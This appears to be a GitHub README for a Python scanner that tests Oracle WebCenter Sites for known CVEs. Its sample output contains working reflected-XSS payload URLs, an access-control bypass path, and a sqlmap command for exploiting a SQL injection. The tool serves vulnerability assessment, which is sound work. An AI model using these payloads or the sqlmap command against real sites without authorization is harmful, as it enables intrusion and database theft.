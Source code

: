 # wcs_scanner
#### WebCenter Sites Vulnerability Scanner

Scan Oracle WebCenter Sites platform looking for its known vulnerabilities.

## Usage
```bash
python3 wcs_scanner.py http://example.com
```

**Example output**
```text
[!] Start scanning http://example.com
[*] Using proxies={'http': 'http://localhost:8080', 'https': 'http://localhost:8080'}

[*] Look for default login page
[-] Default login page not found

[*] Testing CVE-2018-2791 and CVE-2018-3238 - Multiple XSS
[+] Vulnerable to CVE-2018-2791 (Multiple XSS)
    Payload: http://example.com?c=qqqq&cid=qqqq&pagename=OpenMarket/Gator/FlexibleAssets/AssetMaker/confirmmakeasset&cs_imagedir=qqq%22><script>alert(24)</script>
[+] Vulnerable to CVE-2018-3238 (Multiple XSS)
    Payload: http://example.com?c=qqqq&cid=qqqq&pagename=OpenMarket/Gator/FlexibleAssets/AssetMaker/complexassetmaker&cs_imagedir=qqq%22><script>alert(24)</script>

[*] Testing CVE-2019-2578 - Broken Access Control
[+] Vulnerable to CVE-2019-2578 (Broken Access Control)
    Evidence: http://example.com?pagename=OpenMarket/Xcelerate/Admin/WebReferences

[*] Testing SQL Injection
[+] Vulnerable to CVE-2019-2579 (SQL Injection)
[*] You should test this with sqlmap:
sqlmap --dbms Oracle --url http://example.com/cs/ContentServer --data '_authkey_=...&pagename=OpenMarket/Xcelerate/Admin/WebReferences&op=search&urlsToDelete=&resultsPerPage=25&searchChoice=webroot&searchText=*' --cookie 'JSESSIONID=...' --technique U

```

## Reference:
- https://outpost24.com/blog/Vulnerabilities-discovered-in-Oracle-WebCenter-Sites
- https://www.exploit-db.com/exploits/44752


## TODO
Nuclei templates for:
- cve-2019-2579
